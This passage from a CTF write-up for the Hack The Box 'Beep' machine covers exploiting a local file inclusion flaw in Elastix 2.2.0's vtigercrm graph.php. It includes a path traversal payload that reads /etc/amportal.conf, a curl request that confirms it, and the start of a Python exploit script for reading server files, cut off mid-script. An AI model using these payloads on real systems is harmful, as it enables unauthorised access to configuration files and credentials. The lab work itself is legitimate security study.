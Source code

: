 **Let's read that exploit script's code:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Beep)-[2023.08.03|16:35:42(HKT)]
└> searchsploit -m 37637
  Exploit: Elastix 2.2.0 - 'graph.php' Local File Inclusion
      URL: https://www.exploit-db.com/exploits/37637
     Path: /usr/share/exploitdb/exploits/php/webapps/37637.pl
    Codes: N/A
 Verified: True
File Type: ASCII text
Copied to: /home/siunam/ctf/htb/Machines/Beep/37637.pl
```

**After reading it, `/vtigercrm/graph.php`'s `current_language` GET parameter is vulnerable to LFI:**
```
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

**But, the exploit is kinda broken:** 
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Beep)-[2023.08.03|16:38:27(HKT)]
└> perl 37637.pl
	 Elastix 2.2.0 LFI Exploit 
	 code author cheki   
	 0day Elastix 2.2.0  
	 email: anonymous17hacker{}gmail.com 

 Target: https://ip https://10.10.10.7

[-] not successful
```

**So, I tested the above payload and it worked:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Beep)-[2023.08.03|16:40:00(HKT)]
└> curl -k 'https://beep.htb/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action'
# This file is part of FreePBX.
#
#    FreePBX is free software: you can redistribute it and/or modify
[...]
```

**Let's rewrite the exploit in Python and try to read configuration files:**
```python
#!/usr/bin/env python3
import requests
import urllib3

if __name__ == '__main__':
    urllib3.disable_warnings()
    #LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
    RHOSTS = str(input('[*] What\'s the target host: (i.e: beep.htb, 10.10.10.7) '))
    PATH = '/vtigercrm/graph.php'
    LFI_PARAMETER = 'current_language'
    PATH_TRAVERSAL = '../../../../../../../../'
    NULL_BYTE = '%00'
    OTHER_PARAMETERS = '&module=Accounts&action'

    print('[*] Target file (Type "exit" or hit Ctrl + C to exit)')
    while True:
        try:
            target_file = str(input('> '))
            if target_file == 'exit':
```